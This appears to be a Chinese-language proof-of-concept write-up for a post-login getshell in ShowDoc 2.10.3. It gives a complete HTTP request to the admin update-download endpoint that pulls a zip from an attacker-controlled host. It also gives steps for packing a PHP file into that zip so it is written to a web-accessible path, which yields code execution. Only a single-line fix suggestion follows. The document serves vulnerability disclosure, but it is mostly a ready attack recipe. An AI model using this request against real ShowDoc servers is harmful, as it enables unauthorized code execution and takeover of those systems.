




# showDoc

## 0x01 后台Getshell

### 条件

* 登陆后台

### POC

```php
POST /showdoc-2.10.3/server/index.php?s=/api/adminUpdate/download HTTP/1.1
Host: 10.211.55.5
Content-Length: 66
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.80 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://10.211.55.5
Referer: http://10.211.55.5/showdoc-2.10.3/web/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=47uvgq7efm1ethua6a8podcse6; think_language=zh-CN; cookie_token=09d404934af99f9a7cafad11e061df0c23fc785a28781b655a152a7b1eb43000
Connection: origin

new_version=666&file_url=http://192.168.1.7:88/showdoc-666.zip


```

### 复现




只要构造zip压缩包的内容为：



其中.php文件可以为恶意内容，这里写入`web/index.php`内容为`<?php phpinfo(); ?>`

并压缩showdoc-666文件夹并重命名为 `showdoc-666.zip____`

发送poc请求，远程服务端响应



即可访问目标路径`http://xxx/Public/Uploads/update/web/index.php`即可getshell：




### 修复建议

1. 限制并制定`file_url`参数远程更新的url

